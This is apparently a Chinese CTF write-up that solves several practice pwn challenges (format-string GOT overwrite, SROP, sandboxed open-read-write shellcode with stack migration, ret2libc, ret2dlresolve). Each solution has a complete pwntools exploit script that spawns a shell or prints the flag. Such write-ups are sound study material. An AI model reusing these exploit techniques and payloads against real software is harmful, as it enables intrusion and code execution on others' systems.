# puts or system?
format_string 修改 got
存在 printf 格式化漏洞，并且有个 puts("/bin/sh"); 。只要把 puts 的 got 表值修改为 system 函数的真实值或者 plt 值，就可以 getshell。
经调试，printf 的第 9 个参数（%8p）为0x7fffffffdc90处的值。即输入的buf的内容。由此构造payload，在对应第10个参数处写入`__libc_start_main`的got地址，利用`%9s 泄露其真实地址。 随后拿到 system 的真实地址，利用 fmtstr_payload` 替换 puts 的 got 表内容。其中 offset 为 8，表示第 9 个参数为字符串内容。


#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(arch='amd64',log_level='debug') | |
p=remote('node4.buuoj.cn',29924) | |
#p=process('./putsorsys_pe') | |
#gdb.attach(p,'b printf') | |
e = ELF('./putsorsys') | |
puts_p = e.plt['puts'] | |
lsm_g = e.got['__libc_start_main'] | |
puts_g = e.got['puts'] | |
main_a = e.sym['main'] | |
def ready(n): | |
p.recvuntil(b'Give me some gift?(0/1)\n') | |
payload0 = str(n).encode() | |
p.sendline(payload0) | |
if n==1: | |
p.recvuntil(b'What\'s it\n') | |
ready(1) | |
payload = b'%9$sb'.ljust(8,b'a') + p64(lsm_g) | |
p.send(payload) | |
p.recvuntil(b'Oh thanks,There is my gift:\n') | |
lsm_a = u64(p.recvuntil('ba')[:-2].ljust(8,b'\0')) | |
print('the true address of __libc_start_main is %#x'%lsm_a) | |
libc = ELF('./libc.so.6') | |
libcbase = lsm_a - libc.sym['__libc_start_main'] | |
sys_a = libcbase + libc.sym['system'] | |
bs_a = libcbase + next(libc.search(b'/bin/sh')) | |
ready(1) | |
payload = fmtstr_payload(8,{puts_g: sys_a}, write_size='byte') | |
assert len(payload) <= 0x300 | |
p.send(payload) | |
p.interactive() | |
p.close() |

# srop
srop
内核向进程发送 signal 机制后，该进程会被挂起，所有寄存器信息会被压入栈中，以及压入 signal 信息，指向 sigreturn 的系统调用地址，以上这一块成为 signal frame。然后会跳转 signal handler 中处理相应的 signal，执行完毕后会执行 sigreturn 代码。
而漏洞利用机制就是，往栈中压入伪造的 signal frame，然后在栈顶放入 sigreturn 的系统调用，便可以将所有寄存器设置为我们想要的值，包括 rip 指令寄存器。伪造 signal frame 可以利用 pwntools 的工具，可以直接设定需要的寄存器值。
在这题中，用了一个 syscall 的库函数来实现系统调用。因此代码中没有 syscall 汇编。而这个函数的第一个参数为系统调用号，其后的参数为正常系统调用时所用到的参数。如 syscall(1,1,buf,48); 相当于 write(1,buf,48); 的系统调用。

其中伪造的 signal frame 中必须设置 rsp 的值，否则为 0。由于事先无法获取 rsp 地址和其他栈地址，且没有 "/bin/sh" 字符串，无法一次 sigreturn 实现 getshell。
取一段.bss 段上可读写的地址，这里取了 data=0x404100 。因此在第一次栈溢出构造的 signal frame 中，调用 read 函数往 data 中继续伪造下一个 signal frame，并且 rsp 设置为 data，以继续在其中构造 payload。
因为用的 syscall 函数，所以 rdi 为系统调用号，read 的系统调用号为 0。rsi, rdx, rcx 分别为 read 的 3 个参数，为 0, data, 0x400。rip 设为 syscall 的 plt 地址。以便在执行 sigreturn 后接上 read 的系统调用。
在 signal frame 紧接的低地址处，放入 syscall 函数的 plt 地址和 rdi_ret 传参。sigreturn 对应的系统调用号为 0xf。
第二个 signal frame 为 execve("/bin/sh",0,0); 的调用。这里把前面的 payload 补齐 0x120 字符后放入 "/bin/sh" 字符串，因此 rsi 的值应为 buf+0x120 。rsp 继续设为 data，防止调用 system 中途出现意外。
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
import time | |
context(log_level='debug',arch='amd64') | |
#p=remote('node4.buuoj.cn',25998) | |
p=process('./pwn_1') | |
#gdb.attach(p,'b syscall') | |
e = ELF('./pwn_1') | |
syscall_p = e.plt['syscall'] | |
lsm_g = e.got['__libc_start_main'] | |
offset = 0x030 + 8 | |
main_a = e.sym['main'] | |
rdi_ret = 0x0401203 | |
ret = 0x040101a | |
data = 0x404100 | |
# read(0, data, 0x400) | |
sigframe = SigreturnFrame() | |
sigframe.rdi = constants.SYS_read | |
sigframe.rsi = 0 | |
sigframe.rdx = data | |
sigframe.rcx = 0x400 | |
sigframe.rsp = data | |
sigframe.rip = syscall_p | |
payload = b'a' * offset + p64(rdi_ret) + p64(0xf) + p64(syscall_p) + bytes(sigframe) | |
p.recvuntil(b'welcome to srop!') | |
p.send(payload) | |
time.sleep(1) | |
# execv("/bin/sh",0,0) | |
sigframe = SigreturnFrame() | |
sigframe.rdi = constants.SYS_execve | |
sigframe.rsi = data + 0x120 | |
sigframe.rdx = 0x0 | |
sigframe.rcx = 0x0 | |
sigframe.rsp = data | |
sigframe.rip = syscall_p | |
payload = p64(rdi_ret) + p64(0xf) + p64(syscall_p) + bytes(sigframe) | |
assert len(payload)<=0x120 | |
payload = payload.ljust(0x120,b'a') + b'/bin/sh\0' | |
p.send(payload) | |
p.interactive() |

# orw&rop
orw, format_string
开启了 canary，且开启了沙盒保护，无法运行 execve 的系统调用。


存在一段可读写执行的内存，即 0x66660000 处。因此可以在此处构造 shellcode，利用 open，read，write 三者将 flag 打印出来，为了允许栈顶的上下移动，这里取地址 data = 0x66660800+0x30 。

存在 printf 漏洞，可以用于泄露 canary 的值。然后利用第二个 read 实现栈溢出。

没有可以利用的 Rop 链，所以无法手动构造 read 的参数实现往 data 处写入。因此利用栈迁移，payload 中对应栈上 rbp 处的内容设置为 data，而对应返回地址设置为主函数中 read(0,buf,0x100); ，即 0x40137D。其中 buf 为 rbp-0x30。因此此时执行的 read 函数会在 data-0x30 = 0x66660800 处写入数据。


这次写入到 0x66660800 处的数据，0x66660830 处对应 rbp，所以 0x66660838 即为返回地址。首先填充包括 canary 和 rbp 共 0x38 个字符，然后返回地址设为 0x66660840，后续接 shellcode，在该次 read 函数结束后便会执行 shellcode。
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(log_level='debug',arch='amd64') | |
p=remote('node4.buuoj.cn',25201) | |
#p=process('./ezorw') | |
#gdb.attach(p,'b read') | |
offset = 0x030 - 0x8 | |
start = 0x401373 | |
rbp_ret = 0x040121d | |
ret = 0x040101a | |
data = 0x66660800 + 0x30 | |
p.recvuntil(b'Try to escape the sandbox\n') | |
payload = b'%11$p\n' | |
p.send(payload) | |
canary = int(p.recvuntil(b'\n')[:-1], 16) | |
print('the canary is %#x'%canary) | |
p.recvuntil(b"I think you can get flag now\n") | |
payload = offset * b'a' + p64(canary) + p64(data) + p64(start) | |
p.send(payload) | |
#rbp data rsp oldrbp | |
assem=''' | |
mov rdi, 0x66660800; | |
mov rsi, 0; | |
mov rdx, 0; | |
mov rax, 0x2; | |
syscall; | |
mov rdi, 3; | |
mov rsi, 0x66660a00; | |
mov rdx, 0x100; | |
mov rax, 0; | |
syscall; | |
mov rdi, 1; | |
mov rax, 1; | |
syscall; | |
''' | |
p.recvuntil(b"I think you can get flag now\n") | |
payload = b'/flag\0'.ljust(offset,b'a') + p64(canary) + p64(data) + p64(data+0x10) + asm(assem) | |
assert len(payload) <= 0x100 | |
p.send(payload) | |
#rbp rsp data+8 | |
p.interactive() | |
p.close() |
# stack migration revenge
栈迁移 ret2libc
这次跟上周题相比，没有提前泄露栈上地址了。所以选择别处作为栈迁移处。这里依然选择 0x404000~0x405000 处可读写区段。取 data=0x404800 。
无后门无 syscall，用 ret2libc 的方式解题。所以要先泄露地址，然后执行函数。
如果用常规方式，rbp 设为 data，ret 设为 leave_ret，那么在迁移完之后，由于没有事先往 data 写入内容，因此程序会终止。因此这里不再利用 leave_ret 作为返回地址，而是取主函数中 read 函数部分作为返回地址。即 read_1=0x4011FA 。

这样当程序第一次返回时，rbp 寄存器设为 data，然后跳到 read_1 处执行 read 函数。而这里的 rsi 值会被设为 rbp+buf，而 buf 的值为 - 0x50，因此此时会往 buf-0x50 处写入数据。此时依旧遵循在 rbp 所指处存放旧 rbp，在 rbp+8 处存放返回地址。

此时的 “栈” 的地址全部已知。因此直接在 data-0x50 处构建 payload，而返回地址设为 leave_ret，这样返回后会去执行 payload。这一步 payload 用于打印 __libc_start_main 的地址，其最后依旧返回至 read_1，毕竟 rdx 不好控制，就直接用刚刚的方法。其中，payload 开头的旧 rbp 需设为需要写入的地址 + 0x50。这里选择 data+0x100 ，那么会往 data+0xb0 写入。
这时候开始构建 payload，开头的旧 rbp 已经没用了。先构建 system("/bin/sh") ，然后在其后放入字符串 "/bin/sh" ，这样是为了防止后面栈增长将字符串覆盖。payload 后面依旧是旧 rbp 指向 data+0xb0 ，以及 leave_ret。
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher3 import LibcSearcher | |
context(log_level='debug') | |
#p=remote('node4.buuoj.cn',27854) | |
p=process('./pwn') | |
#gdb.attach(p,'b puts') | |
e = ELF('./pwn') | |
puts_p = e.plt['puts'] | |
lsm_g = e.got['__libc_start_main'] | |
rdi_ret = 0x04012b3 | |
rsi_r15 = 0x4012b1 | |
ret = 0x040101a | |
offset = 0x050 | |
leave_ret = 0x401227 | |
data = 0x404800 | |
read_1 = 0x4011FF | |
payload = b'a'*offset + p64(data) + p64(read_1) | |
p.recvuntil(b'me:\n') | |
p.send(payload) | |
p.recvuntil(b'so funny\n') #rbp 404800 rsp old_rbp | |
#read to 4047b0 | |
payload = p64(data+0x100) + p64(rdi_ret) + p64(lsm_g) + p64(puts_p)+ p64(read_1) | |
payload = payload.ljust(offset,b'a') + p64(data-0x50) + p64(leave_ret) | |
p.send(payload) | |
p.recvuntil(b'so funny\n') #rbp 4047b0 rsp 404808 | |
#rbp 404900 rsp 4047b8 | |
lsm_a = u64(p.recvuntil('\n')[:-1].ljust(8,b'\0')) | |
print('the true address of __libc_start_main is %#x'%lsm_a) | |
libc = ELF('./libc.so.6') | |
libcbase = lsm_a - libc.sym['__libc_start_main'] | |
sys_a = libcbase + libc.sym['system'] | |
bs_a = libcbase + next(libc.search(b'/bin/sh')) | |
#''' | |
#read to 404710 | |
payload = b'/bin/sh\0' + p64(rdi_ret) + p64(data+0x100-0x50+5*8) + p64(ret) + p64(sys_a) + b'/bin/sh\0' | |
assert len(payload) <= offset | |
payload = payload.ljust(offset,b'a') + p64(data+0x100-0x50) + p64(leave_ret) | |
p.send(payload) #rbp 404710 rsp 404768 | |
#rbp 0 rsp 404718 | |
p.interactive() | |
p.close() |

# *dlresolve x2
ret2dlresolve x64
这边有个血的教训，就是利用 patchelf 修改 libc 文件后，elf 文件本身会变动，尤其是.dynamic 段的数据。这时候远程做题的时候不能再用改过的文件提取地址，或者利用其构造 Ret2dlresolvePayload，不然就会像我一样本地周三就打通了，远程失败的原因周六才找到。所以源文件备份后再 patchelf 吧。

这题没有输出函数，无法通过泄露地址然后进行 ret2libc。所以如题目所说，利用 _dl_runtime_resolve() 函数来调用 system() 。
检查保护，这题 Relro 为 Partial RELRO 保护，因此.dynamic 段不可修改，漏洞利用方式就是伪造 jmprel, dynsym, dynstr 等数据段。

存在栈溢出漏洞，在溢出后利用 read() 函数在 0x404000~0x405000 可读写段伪造 Elf64_Rela, Elf64_Sym 等数据块。然后构造 system 函数的参数。最后在放入 reloc_offset，跳转到 plt [0] 处以执行 _dl_runtime_resolve() （其实是先放入 plt [0] 地址再放入 reloc_offset）。
在伪造数据的同时连同 system 符号和 "/bin/sh\0" 字符串一并输入进去，用于 _dl_runtime_resolve() 链接函数以及 system() 调用参数。

# 利用 pwntools
这题用 pwntools 直接如下书写。由于没有输出函数，所以两段输入中间用延时区分，或者让第一段输入填充至 100 字符也可（调试时我加入了 input() ，如果没加那么延时分隔不开两段输入）。
最后执行 system() 时会中止在以下汇编指令。

该命令检查栈有没有对齐，若执行该汇编指令时 rsp 末尾不为 0 会报错。因此在 payload 中加入一个 ret，刚好 8 字节。
#!/usr/bin/python3 | |
from pwn import * | |
import time | |
context.binary = elf = ELF('./pwn') | |
context.log_level='debug' | |
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"]) | |
p = remote('node4.buuoj.cn',29599) | |
#p = process('./pwn') | |
#gdb.attach(p, 'b read') | |
offset = 0x70+0x8 | |
rop = ROP(elf) | |
rop.raw(offset*b'a') | |
rop.read(0, dlresolve.data_addr) | |
rop.raw(rop.ret) | |
rop.ret2dlresolve(dlresolve) | |
raw_rop = rop.chain() | |
print(rop.dump()) | |
p.send(raw_rop) | |
time.sleep(1) | |
p.send(dlresolve.payload) | |
p.interactive() |
# 手写步骤。
_dl_runtime_resolve() 是靠字符串解析函数的，因此若传入的字符串为 "system" ，那么便能将当前函数解析为 system 函数。而在某个函数第一次调用时（假设是 read 函数），是往栈中 push 了 read 函数所对应的 Elf64_Rela 与 JMPREL 段的引索。跳到 plt [0] 后再 push 了 got [0] 的值，也就是 push 了 link_map 的值，随后调用 _dl_runtime_resolve() 进行函数链接。
因此我们在栈溢出 payload 中需要调用函数的地方放入 plt [0]，随后放入一个引索值，便可解析任何我们想要的函数。
然后剩下的就是要构造 Elf64_Rela。
首先选择一段内存用于伪造数据。我这里选择了 0x404500 的位置。
